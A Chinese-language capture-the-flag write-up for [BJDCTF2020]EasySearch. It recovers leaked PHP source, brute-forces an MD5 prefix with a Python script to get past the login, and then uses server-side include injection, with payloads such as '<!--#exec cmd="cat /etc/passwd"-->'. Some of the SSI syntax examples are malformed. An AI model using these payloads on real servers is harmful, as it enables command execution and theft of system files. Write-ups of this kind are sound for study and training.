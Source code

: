 # [BJDCTF2020]EasySearch

## 知识点

`index.php.swf`

`python md5生成`

`SSI注入`

## 解题

首先进入题目，有一个登录框，源码没啥东西，先上一手爆破

![alt text](img/[BJDCTF2020]EasySearch-1.png)

爆破半天没有找到有用的信息，扫一下目录，然后发现了`index.php.swp`文件

![alt text](img/[BJDCTF2020]EasySearch-2.png)

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

需要获得`md5`开头为`6d0bc1`的字符串，`python`爆一下,[生成md5的python代码](Scripts/gene_md5.py)

```python
import hashlib
import string
import itertools


def gene_md5(plaintext: str):
    md5 =  hashlib.md5()
    md5.update(plaintext.encode())
    return md5.hexdigest()

def get_data():
    for i in range(10):
        print(f"[*] try gene {i}")
        combinations_with_replacement = list(itertools.combinations_with_replacement(string.ascii_letters, i))
        combinations_with_replacement_str = [''.join(combination) for combination in combinations_with_replacement]
        for data in combinations_with_replacement_str:
            tmp_md5 = gene_md5(data)
            if tmp_md5[0:6] == "6d0bc1":
                print(f"[+] {data}  ===> {tmp_md5}")
                exit(0)


if __name__ == "__main__":
    get_data()
```

`cfkpqH`满足条件，`POST`传值之后在响应头里给了`url路径`

![alt text](img/[BJDCTF2020]EasySearch-3.png)

然后打开页面没有什么东西，源码也没什么东西，但是很像`SSTI`注入,但是看了文件后缀名，又看了其他`wp`之后发现是`SSI`注入

`SSI 注入`全称`Server-Side Includes Injection`（服务端包含注入），`ssi`可以赋予`html`静态页面的动态效果，通过`ssi`执行命令，返回对应的结果，网站目录中发现`.stm` `.shtm` `.shtml`

```html
<div>{$what}</div>
<p>Welcome, {{username}}</p>
<div>{%$a%}</div>
```

就容易产生`ssi`注入，这里实现`RCE`的方法为：`<!--#exec cmd="命令" -->`。


![alt text](img/[BJDCTF2020]EasySearch-4.png)

### `SSI`语法

1.显示服务器端环境变量`<#echo>`

```ssi
本文档名称：
<!--#echo var="DOCUMENT_NAME"-–>

现在时间：
<!--#echo var="DATE_LOCAL"–->

显示IP地址：
<!--#--> #echo var="REMOTE_ADDR"–->


```

2.将文本内容直接插入到文档中`<#include>`

```
<! #include file="文件名称"–->
<!--#include virtual="index.html" -->
<! #include virtual="文件名称"–->
<!--#include virtual="/www/footer.html" -->
```

注：`file`包含文件可以在同一级目录或其子目录中，但不能在上一级目录中，`virtual`包含文件可以是`Web`站点上的虚拟目录的完整路径

3.显示WEB文档相关信息`<#flastmod>` `<#fsize>`(如文件制作日期/大小等)

文件最近更新日期：

```
<--! #flastmod file="文件名称"-–>
```

文件的长度：

```
<!--#fsize file="文件名称"–->
```

4.直接执行服务器上的各种程序`<#exec>`(如`CGI`或其他可执行程序)

```
<!--#exec cmd="文件名称"–->
<!--#exec cmd="cat /etc/passwd"-->
<!--#exec cgi="文件名称"–->
<!--#exec cgi="/cgi-bin/access_log.cgi"–->
```

![alt text](img/[BJDCTF2020]EasySearch-5.png)

![alt text](img/[BJDCTF2020]EasySearch-6.png)

![alt text](img/[BJDCTF2020]EasySearch-7.png)

![alt text](img/[BJDCTF2020]EasySearch-8.png)

[参考文章1](https://www.freebuf.com/articles/network/245231.html)
[参考文章2](https://www.cnblogs.com/upfine/p/16500169.html)